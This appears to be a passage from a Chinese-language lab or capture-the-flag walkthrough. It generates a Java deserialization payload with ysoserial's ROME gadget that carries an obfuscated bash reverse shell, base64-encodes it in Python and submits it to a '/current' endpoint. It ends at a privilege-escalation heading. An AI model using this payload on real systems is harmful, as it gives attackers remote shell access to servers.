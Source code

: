 ```java
java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNDkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```

这样得到的 `a.bin` 是一个包含不可见字符的二进制文件, 为了让 java 正确识别, 需要用 base64 再编码一次才符合规范,

写一个简单的 python 文件即可:

```python
# -*- coding: UTF-8 -*-
import base64
file = open("a.bin","rb")

now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()
```

```cmd
java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNDkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
python file_b64.py
```

然后在刚刚的 `/current` 接口输入得到的序列, 注意要加上 `Bearer ` 这个头部:

![22-12.png](22-12.png)

![22-13.png](22-13.png)

本地收到了反弹 shell。

## 提权
